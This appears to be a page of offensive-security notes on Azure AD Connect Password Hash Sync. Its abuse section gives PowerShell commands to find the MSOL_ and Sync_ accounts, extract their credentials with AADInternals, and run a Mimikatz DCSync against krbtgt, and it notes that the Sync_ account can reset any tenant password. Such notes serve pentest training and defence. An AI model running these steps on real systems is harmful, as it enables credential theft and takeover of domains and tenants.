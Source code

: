 


- It synchronizes users and a hash of their password hashes (not clear-text or original hashes) from on-prem AD to Azure AD.
- The simplest and most popular method for getting a hybrid identity.
- PHS is required for features like Identity Protection and AAD Domain Services.
- Hash synchronization takes place every two minutes.
- When a user tries to access any Azure resource, the authentication takes place on Azure AD.
- Built-in security groups are not synced.
- By default, password expiry and account expiry are not reflected in Azure AD. That means a user whose on-prem password is expired (not changed) can continue to access Azure resources using the old password.


##### Abuse


When PHS is configured:

- An account with the name *`MSOL_<installationID>`* is automatically created in on-prem AD. This account has replication (**DCSync**) permissions in the on-prem AD.
- An account *`Sync_<name of on-prem ADConnect Server_installationID>`* is created in Azure AD. This account **can reset the password of ANY user** (synced or cloud only) in Azure AD.
- Passwords for both accounts are stored in the SQL server on the server where Azure AD Connect is installed, and it is possible to extract them in clear-text if you have admin privileges on the server.

You can enumerate the server where Azure AD Connect is installed using the following on-prem enumeration:

Using the ActiveDirectory module:
```powershell
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" -Properties * | select SamAccountName,Description | fl
```

Or from Azure AD (below command uses the Azure AD module):
```powershell
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```

**AFTER THE SERVER IS COMPROMISSED**

Extract credentials with AADInternals Module:
```powershell
Get-AADIntSyncCredentials
```

Using the credentials of the **MSOL_* account**, run **DCSync** against the on-prem AD:
```powershell
runas /netonly /user:domain.corp\MSOL_782bef6aa0a9 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.corp /dc:dc.domain.corp"'
```

**ON-PREM TO CLOUD**

Using the credentials of the **Sync_* account**, you can reset the password for any user, including Global Administrators and even the user who created the tenant.
